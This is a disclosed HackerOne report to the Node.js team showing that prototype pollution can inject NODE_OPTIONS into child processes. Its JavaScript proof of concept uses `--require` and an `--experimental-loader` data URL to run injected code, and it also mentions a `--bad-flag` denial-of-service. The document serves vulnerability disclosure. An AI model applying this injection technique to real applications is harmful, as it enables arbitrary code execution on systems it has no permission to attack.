 # Child process environment injection via prototype pollution

## Report Details
- **Report ID**: 878181
- **URL**: https://hackerone.com/reports/878181
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-05-19T17:00:54.691Z
- **Disclosed**: 2020-07-04T10:06:21.969Z

## Reporter
- **Username**: coreyfarrell
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** prototype pollution causes polluted system environment for child processes.

**Description:** This can be used to inject arbitrary `--require` flags to node.js child processes or in the case of current node.js versions it can be used to inject arbitrary JavaScript to child processes.

In practice this would require exploiting an existing prototype pollution vulnerability, https://www.npmjs.com/advisories/1164 for example could allow remote attack if an untrusted handlebars template were processed before spawning child processes.

## Steps To Reproduce:

The following code demonstrates that prototype injection is reflected in the environment of `child_process` spawns.

```js
'use strict';

const {spawnSync} = require('child_process');

// Prototype injection entered directly here for demonstration purposes, normally would be
// accomplished by exploiting a vulnerable npm module, https://www.npmjs.com/advisories/1164
// for example.
({}).__proto__.NODE_OPTIONS = '--require=./malicious-code.js';

// This will execute `./malicious-code.js` before running `subprocess.js`
console.log(spawnSync(process.execPath, ['subprocess.js']).stdout.toString());

// Current versions of node.js can run arbitrary code without needing the malicious-code.js
// to be on the destination file system:
({}).__proto__.NODE_OPTIONS = `--experimental-loader="data:text/javascript,console.log('injection');"`;

// The child process will print `injection` before running subprocess.js
console.log(spawnSync(process.execPath, ['subprocess.js']).stdout.toString());
```

Creating this script along with a `subprocess.js` and `malicious-code.js` that each perform a `console.log` will demonstrate the effectiveness of this prototype pollution.

## Impact

Successful prototype injection on version of node.js which supports `--experimental-loader` can run any JavaScript code in child processes.  Older versions of node.js can only be caused to run arbitrary code that is on the local file system.

This could also be used as a DoS attack if NODE_OPTIONS were set to `--bad-flag`.

## Attachments
No attachments
